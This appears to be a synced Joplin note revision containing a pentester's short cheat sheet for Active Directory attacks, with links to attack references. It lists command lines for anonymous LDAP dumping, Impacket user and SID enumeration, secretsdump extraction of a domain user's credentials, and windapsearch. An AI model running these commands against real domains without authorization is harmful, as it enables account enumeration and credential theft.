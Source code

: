 id: 483f514c61a94bc485a44d04279a4f35
parent_id: 
item_type: 1
item_id: 7826dccdcf8942259327f59a60de3d16
item_updated_time: 1642325736014
title_diff: "[{\"diffs\":[[1,\"General Notes\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":13}]"
body_diff: "[{\"diffs\":[[1,\"# Note: Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. \\\n\\\n\\\nAnonymous Credential LDAP Dumping: \\\n\\\n- ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’\\\n\\\nImpacket GetADUsers.py (Must have valid credentials)\\\n\\\n- GetADUsers.py -all <domain\\\\User> -dc-ip <DC_IP>\\\n\\\nImpacket lookupsid.py:\\\n\\\n- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0\\\n\\\nImpacket Secretdump:\\\n\\\npython3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin\\\n\\\nWindapsearch:\\\n\\\nhttps://github.com/ropnop/windapsearch \\\n\\\n- python3 windapsearch.py -d host.domain -u domain\\\\\\\\ldapbind -p PASSWORD -U\\\n\\\n\\\n\\\n## References: \\\n\\\n- PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise\\\n\\\n- Attacking Active Directory: 0 to 0.9:\\\nhttps://zer1t0.gitlab.io/posts/attacking_ad/\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":969}]"
metadata_diff: {"new":{"id":"7826dccdcf8942259327f59a60de3d16","parent_id":"c900bb1263d649dd801144a9657e4075","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"user_updated_time":1624975642873,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.642Z
created_time: 2022-02-28T02:44:25.642Z
type_: 13